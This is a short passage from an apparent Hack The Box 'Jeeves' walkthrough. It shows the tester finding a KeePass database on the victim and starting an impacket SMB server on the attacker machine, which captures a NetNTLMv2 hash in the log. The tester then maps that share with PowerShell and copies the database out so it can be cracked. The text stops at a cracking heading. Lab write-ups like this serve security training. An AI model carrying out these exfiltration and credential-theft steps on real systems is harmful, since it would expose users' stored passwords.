 ### Check Documents
```
PS C:\Users\kohsuke\Documents> dir


    Directory: C:\Users\kohsuke\Documents


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        9/18/2017   1:43 PM           2846 CEH.kdbx 
```

Identified an interesting file CEH.kdbx >> keypass database


### Transfer File
```
Set up impacket-smbserver

impacket-smbserver test `pwd`
Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.63,49690)
[*] AUTHENTICATE_MESSAGE (JEEVES\kohsuke,JEEVES)
[*] User kohsuke\JEEVES authenticated successfully
[*] kohsuke::JEEVES:4141414141414141:6872ce749c0b89499a9e8458795dab68:010100000000000080f24675a1f5d301725852b88a9d989


Powershell Command:
New-PSDrive -Name "NewTest" -PSProvider "FileSystem" -Root "\\10.10.14.59\test"
```

### Copy CEH.kdbx ot new FileShare
```
PS Microsoft.PowerShell.Core\FileSystem::\\10.10.14.59\test1> cp c:\Users\kohsuke\Documents\CEH.kdbx .
```

Copy file to crackable format


## Cracking Hashes
